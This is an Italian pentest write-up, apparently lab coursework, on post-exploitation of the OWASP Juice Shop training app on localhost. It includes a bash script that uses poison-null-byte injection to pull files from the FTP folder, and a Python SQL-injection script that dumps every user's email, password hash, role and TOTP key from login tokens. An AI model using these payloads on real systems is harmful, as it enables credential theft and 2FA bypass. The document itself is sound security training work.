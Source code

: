 ```yaml
---
title: "Juice Shop Post Exploitation"
author: ""
date: "2025-07-06"
toc: true
toc-depth: 2
---
```


# 1. Data exfiltration
## Introduzione
La data exfiltration è il processo mediante il quale un attaccante riesce a sottrarre informazioni sensibili da un sistema informatico senza autorizzazione. Diversamente dalla semplice compromissione di un sistema, l'esfiltrazione comporta l'estrazione attiva di dati — spesso in modo furtivo, evitando di essere rilevata dai sistemi di sicurezza.

## Data exfiltration dei file nella cartella FTP
Come scoperto tramite information gathering e vulnerability assessment, la cartella FTP rimane liberamente accessibile nonostante sia una cartella che contenga dei file privati ed è possibile ottenere l'accesso ai dati tramite il Poison Null Byte, come è stato confermato nella fase di exploitation.

A questo punto è possibilee effettuare data exfiltration e scaricare sul proprio dispositivo personale tutti i file riservati contenuti all'interno della cartella FTP. Si cerca di automatizzare l'intero processo di exfiltration.

### Procedimento
1. Creare un file denominato scraping.sh che contiene il seguente codice:
```sh
#!/bin/bash

# URL e cartella in cui verranno scaricati i file
BASE_URL="http://127.0.0.1:3000/ftp"
DEST_DIR="ftp_downloads"

# Crea la cartella di destinazione
mkdir -p "$DEST_DIR"

# FILE_LIST conterrà tutti i link presenti nella directory FTP
# Legge il file HTML di FTP e si salva tutti i link href, ovvero i file presenti all'intenro della pagina, situati al suo interno
FILE_LIST=$(curl -s "$BASE_URL/" | grep -oP '(?<=href=")[^"]+')

# Per ognuno dei file trovati
for file in $FILE_LIST; do
    # Escludi la directory corrente o link "vuoti"
    if [[ "$file" == "." || -z "$file" ]]; then
        continue
    fi

    # Controlla se il file termina con .md o .pdf
    if [[ "$file" =~ \.md$ || "$file" =~ \.pdf$ ]]; then
        DOWNLOAD_NAME="$file"
    else
    # Se non termina con .md o pdf, esegui un attacco tramite Null Byte Injection
        DOWNLOAD_NAME="${file}%2500.md"
    fi

    echo "Dowloading $file"
    
    # Scarica e salva il file
    curl -s -o "$DEST_DIR/$file" "$BASE_URL/$DOWNLOAD_NAME"
done

echo "Scraping completed."
```

2. Aprire la bash e spostarsi nella cartella in cui è presente il file appena creato.
3. Eseguire lo script usando il comando:
```sh
bash scraping.sh
```
4. I file scaricati saranno situati dentro la sottocartella `ftp_downloads`.

### Prova del procedimento
![Data exfiltration dei dati in FTP](../immagini/post-exploitation/FTP_DE.png)

## Data exfiltration degli utenti
A partire da information gathering si è scoperto che la funzione di Login potrebbe essere soggetta ad injection in quanto è usato per comunicare con il server per estrapolare dei dati da un DB SQL.

Successivamente da un analisi approfondità, nella fase di VA, si è scoperto che potrebbe essere effettivamente debole all'SQL Injection. 

Infine nella fase di penetration, è stato creato un query malevola al fine di ottenere i dati di accesso agli account senza conoscerne i dati di autenticazione.

Una seconda successiva analisi ha rivelato che durante la fase di login, il server manda al client un token contenente diversi dati usati per identificare l'utente tra cui: id, email, password hashata, ruolo, totp key e ip. Tutti dati personali dell'utente che permettono di fare user enumerations e avere potenzialmente accesso a dati sensibili degli utenti stessi.

Conoscendo queste informazioni, è stato creato un file python in grado di eseguire il dumping di tutto il database contenente i dati utenti sfruttando l'SQL Injection sul login.

### Procedimento
1. Creare un file python `SQL_injection.py` contenente il seguente codice:
``` python
import requests
import base64
import json

url = "http://127.0.0.1:3000/rest/user/login"
headers = {"Content-Type": "application/json"}

output_file = "users.txt"

# SQL malevolo basandosi sugli user Id
def check_user(id_number):
    payload = {"email": f"' OR id = '{id_number}' --", "password": "none"}
    response = requests.post(url, json=payload, headers=headers)
    return response

# converte il token da base64 -> bytes -> utf-8
def base64url_decode(input_str):
    padding = '=' * (-len(input_str) % 4)
    return base64.urlsafe_b64decode(input_str + padding).decode("utf-8")

# Apre o crea un file in cui inserire i dati degli utenti
with open(output_file, "w") as file:
    # Esegue un richiesta per ogni user id a partire da 0 fino ad un valore limite predefinito (30 in questo caso)
    for i in range(0, 30):

        # Fa una richiesta API di tipo POST
        res = check_user(i)

        # Legge la risposta
        try:
            json_file = res.json()

            # Ottiene il token dalla risposta JSON e la spezza in parti
            token = json_file["authentication"]["token"] 
            token_split = token.split('.')

            # Estrapola i dati utenti dal token
            payload_b64 = token_split[1]            
            payload = base64url_decode(payload_b64)
            payload_json = json.loads(payload)
            
            print(f"Found user: {payload_json['data']['email']}")
        except:
            print("ID not found.")
            continue
           
        # Salva i dati utenti dentro un file
        file.write(payload + "\n")
```
2. Eseguire il file python usando il comando:
``` sh
python SQL_Injection.py
```
3. Tutti i dati degli utenti vengono salvati dentro il file `users.txt`.
4. A partire dal file `users.txt` è possibile ottenere i dati come `email`, `password` (possibile fare attacchi brute-force o rainbow-table), `ruolo` (quindi sfruttare account con privilegi superiori) e `totp key` (per bypassare 2FA).

### Prova del procedimento
![Data exfiltration tramite query SQL](../immagini/post-exploitation/DE_sql.png)

# 2. Information gathering internamente al sistema compromessoo (Pillaging)
## Introduzione
Pillaging è un termine molto usato in ambito pentest per indicare la raccolta sistematica di informazioni sensibili dopo aver compromesso un sistema.

## Package.json
Dopo essere entrato in possesso dei file contenuti dentro la cartella FTP, si è andati alla ricerca di qualsiasi informazioni che possa essere usato per ottenere informazioni e identificare ulteriori punti d'attacco dell'applicazione.

In particolare, un file che salta all'occhio è `package.json` che rappresenta un file contente informazioni creati dal software `npm` usato per gestire `node.js`. All'interno di questo file sono contenute tutte le librerie e dipendenze usate da Node per gestire il server stesso. Si procede all'analisi delle librerie per scovare dipendenze vulnerabili.

### Prodedimento
1. Si apre il file per un analisi manuale del file e trovare che esiste la sezione dipendenze.

![File package.json](../immagini/post-exploitation/package_json.png)

2. Si utilizza il comando:
```sh
npm audit --package.json > audit-report.txt
```
Per creare un report di eventuali dipendenze vulnerabili.

3. Il report, in questo caso, ha trovato 172 vulnerabilità di cui: 

    * 6 vulnerabilità di bassa gravità
    * 53 vulnerabilità di media gravità
    * 71 vulnerabilità di alta gravità
    * 42 vulnerabilità critiche

### Prova del procedimento
![Auditing dei pacchetti npm](../immagini/post-exploitation/pillaging_package.png)


